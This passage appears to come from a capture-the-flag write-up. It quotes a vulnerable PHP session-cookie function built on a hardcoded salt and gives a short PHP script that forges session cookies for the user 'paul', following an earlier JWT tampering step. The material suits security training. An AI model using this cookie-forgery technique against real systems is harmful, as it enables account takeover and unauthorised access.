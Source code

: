 ![Modifying token on jwt.io](breadcrumbs_jwt-1.png)

Now the **PHP session cookie** of _paul_ is needed to use the uploading function.
By searching through more source code, the file _/portal/login.php_ includes _authController.php_ and this includes _cookie.php_, which has the _makesession_ function to generate the PHP session cookie:
```
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);
```

This function can be copied and modified to generate PHP session cookies for the user _paul_:
```
<?php
function makesession($username, $seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}

echo makesession("paul",0);
echo "\r\n";
echo makesession("paul",1);
echo "\r\n";
echo makesession("paul",2);
echo "\r\n";
echo makesession("paul",3);
echo "\r\n";

?>
```
